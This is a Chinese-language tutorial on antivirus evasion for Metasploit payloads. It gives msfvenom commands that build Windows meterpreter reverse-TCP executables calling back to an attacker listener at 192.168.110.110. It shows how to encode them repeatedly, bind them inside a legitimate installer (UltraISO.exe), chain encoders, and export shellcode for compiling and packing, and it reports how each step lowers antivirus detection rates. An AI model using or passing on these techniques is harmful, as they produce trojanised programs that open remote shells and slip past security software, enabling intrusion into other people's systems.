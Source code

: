 # 杀软是如何检测出恶意代码的？

特征码、启发式恶意软件检查和行为。

# 免杀是做什么？

对特征进行混淆，打乱代码，避免杀毒软件查杀

# 免杀的基本方法有哪些？

1. 自编码处理  
2. 自捆绑+编码 
3. 多重编码   
4. 接口下载式  
5. 签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

1. 改变特征码
2. 改变行为
3. 其它

:::info
**由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果**
:::

# 在线查毒工具virscan提供
[https://www.virscan.org/](https://www.virscan.org/)

# 方法一、不处理payload直接生成样本进行检测
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe

进行查毒有41%的杀毒软件报毒了

具体查毒链接：[https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9](https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9)

# 方法二、 MSF自编码处理payload生成样本进行检测

首先, **查看可以用编码模块**, 输入

msfvenom --list encoders

我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有37%的杀毒软件报毒了

# 方法三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe

进行查毒有37%的杀毒软件报毒了

# 方法四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe

进行查毒有31%的杀毒软件报毒了

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe

进行查毒有27%的杀毒软件报毒了

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c

2、改c文件，并编译，并加壳

随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具
